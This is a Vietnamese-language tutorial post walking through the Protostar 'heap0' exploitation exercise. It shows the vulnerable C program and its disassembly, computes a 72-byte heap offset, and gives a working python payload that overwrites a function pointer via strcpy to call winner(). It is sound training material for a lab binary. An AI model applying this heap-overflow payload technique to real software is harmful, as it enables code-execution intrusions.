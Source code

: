 ```yaml
---
layout: post
title: heap0
---
```


Trong bài này, chúng ta sẽ bắt đầu nghiên cứu cách exploit bộ nhớ heap.
Heap là loại bộ nhớ được cấp phát động qua `malloc`, `calloc`, hay `new` trong C/C++.
Về cơ bản, exploit heap cũng tương tự như exploit stack.
Hai kỹ thuật này đều tập trung vào việc tìm địa chỉ của biến trên bộ nhớ để truy xuất và ghi đè.
Sau đây là source code và asm code của chương trình heap0.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```
```asm
0x08048464 <winner+0>:  push   ebp
0x08048465 <winner+1>:  mov    ebp,esp
0x08048467 <winner+3>:  sub    esp,0x18
0x0804846a <winner+6>:  mov    DWORD PTR [esp],0x80485d0
0x08048471 <winner+13>: call   0x8048398 <puts@plt>
0x08048476 <winner+18>: leave
0x08048477 <winner+19>: ret
0x08048478 <nowinner+0>:        push   ebp
0x08048479 <nowinner+1>:        mov    ebp,esp
0x0804847b <nowinner+3>:        sub    esp,0x18
0x0804847e <nowinner+6>:        mov    DWORD PTR [esp],0x80485dd
0x08048485 <nowinner+13>:       call   0x8048398 <puts@plt>
0x0804848a <nowinner+18>:       leave
0x0804848b <nowinner+19>:       ret
0x0804848c <main+0>:    push   ebp
0x0804848d <main+1>:    mov    ebp,esp
0x0804848f <main+3>:    and    esp,0xfffffff0
0x08048492 <main+6>:    sub    esp,0x20
0x08048495 <main+9>:    mov    DWORD PTR [esp],0x40
0x0804849c <main+16>:   call   0x8048388 <malloc@plt>
0x080484a1 <main+21>:   mov    DWORD PTR [esp+0x18],eax
0x080484a5 <main+25>:   mov    DWORD PTR [esp],0x4
0x080484ac <main+32>:   call   0x8048388 <malloc@plt>
0x080484b1 <main+37>:   mov    DWORD PTR [esp+0x1c],eax
0x080484b5 <main+41>:   mov    edx,0x8048478
0x080484ba <main+46>:   mov    eax,DWORD PTR [esp+0x1c]
0x080484be <main+50>:   mov    DWORD PTR [eax],edx
0x080484c0 <main+52>:   mov    eax,0x80485f7
0x080484c5 <main+57>:   mov    edx,DWORD PTR [esp+0x1c]
0x080484c9 <main+61>:   mov    DWORD PTR [esp+0x8],edx
0x080484cd <main+65>:   mov    edx,DWORD PTR [esp+0x18]
0x080484d1 <main+69>:   mov    DWORD PTR [esp+0x4],edx
0x080484d5 <main+73>:   mov    DWORD PTR [esp],eax
0x080484d8 <main+76>:   call   0x8048378 <printf@plt>
0x080484dd <main+81>:   mov    eax,DWORD PTR [ebp+0xc]
0x080484e0 <main+84>:   add    eax,0x4
0x080484e3 <main+87>:   mov    eax,DWORD PTR [eax]
0x080484e5 <main+89>:   mov    edx,eax
0x080484e7 <main+91>:   mov    eax,DWORD PTR [esp+0x18]
0x080484eb <main+95>:   mov    DWORD PTR [esp+0x4],edx
0x080484ef <main+99>:   mov    DWORD PTR [esp],eax
0x080484f2 <main+102>:  call   0x8048368 <strcpy@plt>
0x080484f7 <main+107>:  mov    eax,DWORD PTR [esp+0x1c]
0x080484fb <main+111>:  mov    eax,DWORD PTR [eax]
0x080484fd <main+113>:  call   eax
0x080484ff <main+115>:  leave
0x08048500 <main+116>:  ret
```

Mục tiêu là gọi được hàm `winner`.
Mặc định, hàm này không hề có trong flow của chương trình.
Phiên bản được gọi là hàm `nowinner`.
Dựa trên kinh nghiệm những bài trước, hàm có thể lợi dụng được để exploit chương trình là `strcpy`.

Việc đầu tiên, chúng ta sẽ xác định địa chỉ của hàm `winner`.
Địa chỉ này sẽ được dùng để gọi hàm.
Sử dụng objdump hoặc gdb, ta tìm được địa chỉ của `winner` là `0x08048464`.

Nếu chạy thử chương trình với tham số bất kỳ, chương trình sẽ in ra địa chỉ của 2 biến kiểu struct tại 2 địa chỉ như sau.

```bash
heap0 a
```

<pre class="memory">
<span style="color:aqua">data is at 0x804a008</span>, <span style="color:springgreen">fp is at 0x804a050</span>
level has not been passed
</pre>

Với 2 địa chỉ này, kèm theo thông tin về 2 struct, ta biết `name` trong struct data nằm ở địa chỉ với offset 0x0 và `fp` nằm trong struct `fp` ở địa chỉ offset 0x0.
Khoảng cách giữa 2 biến là `0x0804a050 - 0x0804a008 = 0x48`, tương đương 72 byte.
Để gán địa chỉ của `winner` cho `fp` trong struct `fp`, ta sẽ tạo một buffer có 72 byte cùng với 4 byte địa chỉ của `winner`.
Khi `strcpy` được gọi, buffer này sẽ ghi bắt đầu từ `0x0804a008` đến hết `0x0804a053`.
Buffer như sau.

```bash
python -c 'print "A" * 72 + "\x64\x84\x04\x08"'
```
<pre class="memory">
data is at 0x804a008, fp is at 0x804a050
<span style="color:aqua">level passed</span>
</pre>

Mục tiêu đã hoàn thành!
## Ref
```bash
user@protostar:~$ heap0 $(python -c 'print "A" * 72 + "\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level passed
```
